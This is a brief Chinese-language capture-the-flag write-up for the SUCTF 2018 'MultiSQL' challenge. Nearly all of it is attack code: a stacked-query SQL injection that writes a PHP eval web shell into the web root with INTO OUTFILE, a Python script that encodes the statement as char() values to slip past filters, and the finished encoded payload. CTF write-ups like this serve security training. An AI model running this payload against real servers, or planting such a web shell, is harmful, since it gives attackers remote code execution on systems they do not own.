

# [SUCTF 2018]MultiSQL

sql注入写shell

```sql
select ‘<?php eval($_POST[_]);?>’ into outfile ‘/var/www/html/favicon/shell.php’;
```

使用脚本把字符串变为ascii码

```python
str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')

```

payload:

```sql
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;

```

